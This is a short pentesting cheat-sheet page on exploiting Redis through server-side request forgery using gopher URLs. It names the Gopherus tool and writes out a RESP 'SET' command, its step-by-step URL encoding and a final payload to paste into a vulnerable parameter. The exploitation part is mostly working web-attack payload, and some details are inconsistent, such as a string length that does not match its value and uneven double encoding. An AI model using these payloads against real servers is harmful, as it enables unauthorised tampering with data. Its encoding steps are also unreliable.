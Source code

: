```yaml
---
title: Redis SSRF
description: 
tags:
    - Web
refs:
    - https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b
date: 2023-09-09
draft: false
---
```


## Investigation

If the target server runs Redis server and the website interacts with the Redis server, we can modify the key value in the Redis and reflects the result through SSRF using **gopher**.

```bash
url=http://evil.com/
```

<br />

## Exploitation

### Automation

We can use [Gopherus](https://github.com/tarunkant/Gopherus) to create a payload.

### Payload Manually

To make the payload for SSRF manually, we need to know what commands to insert.  
To make it clear, try to demonstrate the command (RESP format) to update the target key value in Redis. Please see the [Redis commands](/exploit/database/redis-pentesting) for details.

Below is the example command same as **`SET user ...`**.

```bash
telnet 10.0.0.1 6379
*3 # 3 arguments ("SET", "user", "")
$3 # 3 length of the string "SET"
SET
$4 # 4 length of the string "user" key
user
$18 # 18 length of the string ""
ping+-c+1+10.0.0.2
```

Then we need to format the above command for the gopher URL. It’s need to be URL encoded conained **`%0D%0A (\r\n)`**.

```bash
gopher://10.0.0.1:6379/_%0D
%0D%0A # \r\n
%2A3 # *3
%0D%0A # \r\n
%243 # $3
%0D%0A # \r\n
SET
%0D%0A # \r\n
%244 # $4
%0D%0A # \r\n
user
%0D%0A # \r\n
%2418 # $18
%0D%0A
ping%2B%2Dc%2B1%2B10%2E0%2E0%2E2 # ping+-c+1+10.0.0.2
%0D%0A
```

Finally we get the payload.

```bash
gopher://10.0.0.1:6379/_%250D%0A%250D%250A%0A%252A3%0A%250D%250A%0A%25243%0A%250D%250A%0ASET%0A%250D%250A%0A%25244%0A%250D%250A%0Auser%0A%250D%250A%0A%252418%0A%250D%250A%0Aping+-c+1+10.0.0.2%0A%250D%250A
```

Copy it and paste to where the payload affects the result.